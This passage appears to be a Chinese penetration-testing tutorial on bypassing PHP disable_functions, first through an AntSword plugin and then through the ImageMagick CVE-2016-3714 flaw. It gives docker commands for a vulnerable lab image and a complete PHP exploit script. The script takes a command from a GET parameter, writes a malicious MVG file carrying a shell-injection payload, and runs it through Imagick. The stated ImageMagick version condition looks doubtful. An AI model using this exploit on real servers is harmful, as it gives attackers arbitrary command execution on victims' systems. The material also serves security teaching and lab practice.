 在蚁剑中有该绕过 disable_functions 的插件：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDWNbZlwL7OVIPhwqcNWmZCqQVaZ8XDJP2wvflouh9o5Bk9mAJIf1biaw/640?wx_fmt=png)image-20210209204344862

点击开始按钮后，成功之后, 会创建一个新的虚拟终端，在这个新的虚拟终端中即可执行命令了。

利用 ImageMagick
--------------

**使用条件：**

• 目标主机安装了漏洞版本的 imagemagick（<= 3.3.0）• 安装了 php-imagick 拓展并在 php.ini 中启用；• 编写 php 通过 new Imagick 对象的方式来处理图片等格式文件；•PHP >= 5.4

### 原理简述

imagemagick 是一个用于处理图片的程序，它可以读取、转换、写入多种格式的图片。图片切割、颜色替换、各种效果的应用，图片的旋转、组合，文本，直线，多边形，椭圆，曲线，附加到图片伸展旋转。

利用 ImageMagick 绕过 disable_functions 的方法利用的是 ImageMagick 的一个漏洞（CVE-2016-3714）。漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的 ImageMagick，ImageMagick 会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。所以如果在 phpinfo 中看到有这个 ImageMagick，可以尝试一下。

### 利用方法

我们使用网上已有的 docker 镜像来搭建环境：

```
docker pull medicean/vulapps:i_imagemagick_1docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
```

启动环境后，访问 http://your-ip:8000 端口：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDBdYIvv6SGK8RAPx6BExhTwjUFrclKicQne0XibNwun0STJzcOsUeNkyQ/640?wx_fmt=png)image-20210210212034085

假设此时目标主机仍然设置了 disable_functions 只是我们无法执行命令，并且查看 phpinfo 发现其安装并开启了 ImageMagick 拓展：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDYk7oxALic8XicIAz1ibUyYPoKpSarxfNW9MbjuDCVKbAmdCMWnXRkvLXA/640?wx_fmt=png)image-20210210212323792

此时我们便可以通过攻击 ImageMagick 绕过 disable_functions 来执行命令。

将一下利用脚本上传到目标主机上有权限的目录（/var/tmp/exploit.php）：

```
<?phpecho "Disable Functions: " . ini_get('disable_functions') . "\n";$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];if ($command == '') {   $command = 'id';}$exploit = <<<EOFpush graphic-contextviewbox 0 0 640 480fill 'url(https://example.com/image.jpg"|$command")'pop graphic-contextEOF;file_put_contents("KKKK.mvg", $exploit);$thumb = new Imagick();$thumb->readImage('KKKK.mvg');$thumb->writeImage('KKKK.png');$thumb->clear();$thumb->destroy();unlink("KKKK.mvg");unlink("KKKK.png");?>
```

然后包含该脚本并传参执行命令即可。但是复现可能会出现各种原因报错，感兴趣的朋友们可以试一试，成功的请私我。

Ending......
------------

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou9ykyqOdflhqvdznicLhY6PDjZzJv0DibD1lLPwWFWtxd7xv8iaFqDjYJZGwySF3U3MwH6CyNAFRtScA/640?wx_fmt=jpeg)
